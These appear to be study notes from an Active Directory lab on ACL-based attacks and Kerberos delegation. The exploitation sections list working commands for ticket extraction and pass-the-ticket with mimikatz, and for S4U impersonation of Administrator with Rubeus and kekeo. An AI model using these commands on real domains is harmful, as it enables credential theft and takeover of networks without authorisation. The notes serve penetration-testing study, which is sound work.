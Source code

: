 ## permission delegation
we can delegate the permission to force change a user's password to the Helpdesk team, meaning they now have a delegated privilege for this specific function
- Permission Delegation exploits are often referred to as ACL-based attacks
- AD allows administrators to configure Access Control Entries (ACEs) that populates Discretionary Access Control Lists (DACLs), hence the name ACL-based attacks
- [Bloodhound documentation](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#) assists in explaining enumerated ACEs and how they can be exploited
## Kerberos Delegation
##### explain and example
The client wants to authenticate using Kerberos to the first server (Hop 1) and the first server needs to access resources on the second server (Hop 2) on behalf of the client. A common scenario is a user that access a frontend application that needs to modify resources on a database server.
![[Pasted image 20250314212242.png]]
when the client sends a TGS to access the first server with unconstrained delegation they will attach their TGT in the same request. In this way the first hop server has a TGT for the client’s account, and can request a TGS to access the second hop server on their behalf.
##### risk
if an attacker compromises a server with unconstrained delegation enabled, they can extract TGTs of the accounts that have attempted a connection to the first hop server.
##### Constrained Kerberos Delegation
in above attack the TGT for the user can act as the user, access any resource the user have access to, so  Microsoft introduced Constrained Delegation in 2003. Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. The following are examples of services that can be configured for delegation: HTTP,  CIFS , LDAP, HOST, MSSQL
#### exploit unconstrained delegation
1. find machines computer objects with the property `TrustedForDelegation`
	```powershell
	Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
	```
2. On the computer with kerberos delegation rights, run mimikatz to extract TGTs: 
	1. list tickets: `sekurlsa::tickets` 
	2. force the user to auth to your machine if the token u want to fond, here's examples:
		[exploit unconstrained delegation using SpoolSample](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976 )
	3. export it`tickets /export` 
3. load into memory `kerberos::ptt`
4. validate and get remote access, `klist;Enter-PSSession <name>`
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation
https://web.archive.org/web/20190709194357/https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
#### exploit constrained delegation
Constrained delegation allows a service to **delegate user credentials to specific services (SPNs)**. Attackers abuse this to impersonate users and access allowed services (e.g., WinRM, HTTP, MSSQL).
1. **Identify Accounts with Constrained Delegation**  
	Find user or computer accounts with `msDS-AllowedToDelegateTo` configured (allowed SPNs):
	```powershell
	# For users:
	Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo  
	# For computers:
	Get-ADComputer -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo  
	```
2. **Obtain Credentials or a TGT for the Delegation Account**  
	Compromise the account (e.g., `svc_deleg`) that has constrained delegation rights. Use its credentials/hash to request a **TGT**:
	```powershell
	# Using Rubeus:
	Rubeus.exe asktgt /user:svc_deleg /domain:corp.local /rc4:<NTLM_HASH> /nowrap
	# or use kekeo
	kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
	```
3. **Impersonate a User via S4U2Self/S4U2Proxy**  
	Use the TGT to request a **Service Ticket (TGS)** for a target user (e.g., `Administrator`) to the allowed SPNs:
	```powershell
	Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/THMSERVER1.corp.local /altservice:HTTP,WSMAN /tgt:<BASE64_TGT> /nowrap  
	# or use kekeo
	kekeo # tgs::s4u /tgt:TGT_svcIIS@....kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
	```
4. **Inject the TGS and Access the Service**  
	Load the stolen TGS into memory:
	```powershell
	Rubeus.exe ptt /ticket:<BASE64_TGS>  
	# Or with mimikatz:
	kerberos::ptt CIFS_THMSERVER1.kirbi  
	```
	Access the target service:
	```powershell
	klist  # Verify injected tickets
	Enter-PSSession -ComputerName THMSERVER1.corp.local  # WinRM access
	```
## 